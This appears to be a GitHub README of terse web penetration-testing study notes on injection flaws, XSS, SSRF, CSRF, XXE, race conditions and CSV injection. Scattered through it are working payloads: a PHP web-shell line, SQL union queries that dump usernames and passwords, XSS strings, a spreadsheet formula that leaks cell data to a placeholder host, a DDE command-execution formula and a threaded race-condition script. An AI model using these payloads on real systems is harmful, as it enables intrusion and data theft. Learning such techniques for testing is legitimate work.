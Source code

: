 # bug bounty reference

https://github.com/ngalongc/bug-bounty-reference
# web-pen-basic
understand





 - Command injection is "string to command".(;,||,&&, are used to join command.The `exec()` function is for code execution.
 - Code injection is "string to code".("." is used to join code)(`eval("echo "....)` function).Using " , ' for testing.
 - Directory traversal  is  "file to code".
 -  log poison
 - Using burp suit by replacing`<?php system($_GET[cmd]);`
 -  LFI , RFI(file=www.google.com or webshell)

File inclusion
---
 `include()` function 
 1. Command injection`echo exec("whoami")`
 2.                    `system("whoiam")`
 3. Blind command injection`exec("whoami")`
 4. [command payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
 5. Searching
            Regular expression security cheatsheet

SQL Injection
--

 1.union based(echo)
 - users where id=0 or 1=1     
 
 - testing numbers of columns with "order by"   
 -    union select,database(),version()   
 

     -1 union select 1,2,3,concat(table_name) from information_schema.tables where table_schema=database()    
     -1 union select 1,2,3,concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' //group_concat  
    
     -1 union select 1,2,3,concat(username,password) from users


  
 1. Error base(//echo)
       
 2. Blind based (//mysqli_report(MYSQLI_REPORT_ERROR |

MYSQLI_REPORT_STRICT))

     

 

 
 - Time based blind(1 -sleep(5))

    

 - boolean based blind(id=1 and 1=2) 
 ` $sql ="SELECT * FROM users WHERE id="$uid""`
 `$sql ="SELECT * FROM users WHERE id='$uid'"`
  `$sql ="SELECT * FROM users WHERE id=('$uid')"`

https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/06.SQL%20Injection.md

Same Original Method Execution
--

 - html injection be
 - iframe does not allow taking script from another site.
 - [REF](https://github.com/LunaM00n/Free-WebSec-Class/blob/master/Lectures/07.Some.md)
 - universal xss

## CSV Injection
Reference
```
https://www.contextis.com/en/blog/comma-separated-vulnerabilities
https://blog.zsec.uk/csvhub/
```
Formulas  
```
=SUM(A1,A2)

```
Data Exfiltration
```
=HYPERLINK("http://host?leak="&A1&A2,"Error: please click for further information")
```
Client Side RCE ( Trust Relationships )
```
=cmd|' /C calc'!A0
```
Powersploit and Metasploit Client Side Payloads

```https://github.com/PowerShellMafia/PowerSploit ```

```https://www.offensive-security.com/metasploit-unleashed/client-side-exploits/ ```

Cross-site Request Forgery(CSRF)
--

 - Using get method by viewing uri
 - Payload
 `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection`


Server Side Request Forgery(SSRF)
---

 - Have server ,client
 - server_address/ssrf.php?url=http://localhost/intranet.php
 
 
 
      <?php
    echo $_GET['name']
    ?> 
 

 
XSS
--
 1. Cookies can be stole.
 2. Java script execution 
 3. Advanced handler like
 4. Obfuscation
 5. Bypass or Escape
 6. Avoiding
 7. HtmlSpecialCharacter works encoding
 8. After hash sign,browser encode it.
 9. can steal cookies 
 10.can execute script when you sent to other users. 
 
 `<img src=x onerror=alert(1)>`

`<script> prompt(1)</script>`

`<svg onload=alert(1) `

`<a onclick=alert(1)>`

`<body onload=alert(1)> `

[cheatsheethtml5](https://html5sec.org/)

**DOM**

[public_firing](https://public-firing-range.appspot.com/)

**
Relative Path Overwrite(RPO)**
 
[RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
[REF](https://blog.innerht.ml/)

XXE
--

>xpath or xxe (xml external entity )
>

[play xxe](https://pentesterlab.com/exercises/play_xxe/course)




Web Cache Poisoning
-

 - Using burp suit para miner
 -` Get\?`
 
 HTTP Host Header Injection
 --
 DOM
 --
 
 - location.hash
 - https://public-firing-range.appspot.com/

Race Condition(TOTUC)
--

 - Transfer each other
 - Other will get more than the amount of transferred
 
`import datetime
import requests
from threading import Thread

def intruder(i):
	reponse=requests.get("http://127.0.0.1/webpen/race_condition/racer.php?test")
	print "Thread #{} - {}".format(i,response.text)

for i in range(20):
   	t=Thread(target=intruder,args=(i,))
	t.start()`

 - https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
 - https://defuse.ca/race-conditions-in-web-applications.htm
 - https://sakurity.com/blog/2015/05/21/starbucks.html?source=post_page-------------------------

PHP Object Injection
--

 - Object Oriented Programming(OOP)
 - Magic Method(auto call)

Server Side Template Injection
---

Document Object Model
--
Relative Path  Overwrite
--

Reference
--

> [payload](https://github.com/swisskyrepo/PayloadsAllTheThings)
> https://github.com/LunaM00n/Free-WebSec-Class/
